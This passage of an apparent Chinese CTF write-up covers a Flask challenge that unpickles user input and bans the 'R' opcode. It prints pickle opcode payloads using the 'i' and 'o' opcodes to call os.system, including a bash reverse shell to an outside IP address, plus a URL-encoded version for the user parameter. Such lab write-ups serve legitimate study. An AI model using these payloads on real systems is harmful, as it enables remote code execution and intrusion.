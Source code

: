 ```prism
        return '你说得对，但是上次CNSS娘被你骗了之后很伤心，把商店改成了自助flag商店，你得自己找flag'

    return '臭要饭的别挡我财路'


@app.route('/code')
def code():
    file = 'code.zip'
    return flask.send_file(file, mimetype='application/zip')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8888)

```

![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

pickle反序列化。if 'R' in user.upper():禁用了R字符。像[2021极客巅峰 opcode]，参考文章：CTF题型 Python中pickle反序列化进阶利用&opcode绕过_ctf opcode-CSDN博客

这个有R被ban了

```has-numbering
cos
system
(S'whoami'
tR.

```

下面两个都可以用

```has-numbering
(S'bash -c 'sh -i >& /dev/tcp/124.71.147.99/1717 0>&1''
ios
system
.

```

```has-numbering
(cos
system
S'bash -c 'sh -i >& /dev/tcp/124.71.147.99/1717 0>&1''
o.

```

payload：（要URL编码一下）

```has-numbering
/?user=(S'bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F124.71.147.99%2F1717%200%3E%261''%0Aios%0Asystem%0A.

```



![image-20240807211133061](https://img-blog.csdnimg.cn/img_convert/40dec4e0a606d45f68fea7ee9b6c73f5.png)